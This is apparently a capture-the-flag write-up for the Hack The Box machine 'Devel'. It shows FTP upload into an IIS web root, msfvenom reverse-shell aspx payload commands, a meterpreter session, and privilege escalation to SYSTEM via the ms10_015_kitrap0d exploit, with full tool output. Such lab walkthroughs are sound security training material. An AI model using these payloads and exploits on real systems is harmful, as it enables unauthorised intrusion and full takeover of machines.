 # recon
- windows: ping ttl 127
- port 21 : ftp
  - mount on web directory
  - `put` is allow -> can access the file from webserver.
- port 80/tcp open  http    Microsoft IIS httpd 7.5
  - MS15-034
  - CVE:CVE-2015-1635

we can use the directory in ftp to find web directory /aspnet_client/system_web/2_0_50727/

-nikto
```console
bibo318@parrot:~/script$ nikto -h devel.htb
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.5
+ Target Hostname:    devel.htb
+ Target Port:        80
+ Start Time:         2020-09-22 09:00:24 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-powered-by header: ASP.NET
```
note that the site is use **ASP.NET**
so base on what we know, we can create a reverse shell to get foot hold
- ASP.NET : execute .asp or aspx, try out then you will know.
  - I tried .asp and it didnt work so let go for .aspx
- meterpreter: ```msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=6969 -f aspx > shell.aspx```
- non-meterpreter ```msfvenom -p windows/shell/reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=6969 -f aspx > shell.asp```

# foot hold
use exploit/multi/handler and listen to reverse shell. now visite the website `devel.htb/shell.aspx` and Boom you got meterpreter shell.
- uid: just web, cant do shit
```
meterpreter > getuid
Server username: IIS APPPOOL\Web
```
- sysinfo
```
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
```
shell,
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          25/9/2020, 1:33:57 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 783 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.517 MB
Virtual Memory: In Use:    530 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
base one hotfix(s), the server never been patch. install date was 2017.


backgroud meterpreter shell and run `multi/recon/local_exploit_suggester`, this will help us find exploit. set session and run it
```
ost(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 34 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
```

# root 
we will use result from `local_exploit_suggester` to gain root access, let start with `ms10_015_kitrap0d`. run `show options` and set everything that needed.

```
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Launching notepad to host the exploit...
[+] Process 3032 launched.
[*] Reflectively injecting the exploit DLL into 3032...
[*] Injecting exploit into 3032 ...
[*] Exploit injected. Injecting payload into 3032...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 5 opened (10.10.14.12:4444 -> 10.10.10.5:49158) at 2020-09-22 09:46:26 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```